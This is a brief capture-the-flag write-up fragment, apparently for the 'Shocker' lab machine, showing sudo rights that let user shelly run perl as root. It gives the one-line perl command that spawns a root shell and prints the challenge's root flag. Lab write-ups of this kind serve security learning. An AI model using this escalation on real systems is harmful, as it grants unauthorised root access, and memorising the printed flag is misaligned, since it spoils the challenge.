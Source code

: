## sudo -l

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

* let's check out https://gtfobins.github.io
* `sudo perl -e 'exec "/bin/sh";'`
* root.txt - `52c2715605d70c7619030560dc1ca467`
